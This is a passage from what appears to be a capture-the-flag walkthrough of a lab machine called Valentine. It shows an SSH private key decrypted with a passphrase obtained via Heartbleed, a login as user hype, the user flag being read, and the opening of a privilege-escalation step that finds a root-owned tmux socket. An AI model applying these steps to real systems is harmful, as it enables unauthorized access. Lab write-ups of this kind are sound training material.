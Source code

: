 

We can use openssl to try to decrypt. It asks for a password... the
decode of the base64 collected with heartbleed,
`heartbleedbelievethehype` works:



    root@kali# openssl rsa -in hype_key_encrypted -out hype_key_decrypted
    Enter pass phrase for hype_key_encrypted:
    writing RSA key



## SSH Access

With the decrypted key, ssh in as `hype`, given the file name:



    root@kali# ssh -i ~/hype_key_decrypted hype@10.10.10.79
    Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

     * Documentation:  https://help.ubuntu.com/

    New release '14.04.5 LTS' available.
    Run 'do-release-upgrade' to upgrade to it.

    Last login: Fri Feb 16 14:16:34 2018 from 10.10.14.3
    hype@Valentine:~$ pwd
    /home/hype



This banner confirms the OS identification from nmap as Ubuntu 12.04.

Now we can grab user.txt:



    hype@Valentine:~$ find . -name user.txt -exec wc -c {} \; -exec cat {} \;
    33 ./Desktop/user.txt
    e6710a54...



## Privesc

There's two clear paths to root here. Despite the fact that it's been
quite obvious that this is an older kernel, we'll start with the more
elegant one, since kernel exploits should be a last resort.

### Privesc 1: tmux Running as root

We see signed of tmux in a few places.

Process list, running as root:



    hype@Valentine:~$ ps -ef | grep tmux
    root       1022      1  0 Jul25 ?        00:00:54 /usr/bin/tmux -S /.devs/dev_sess
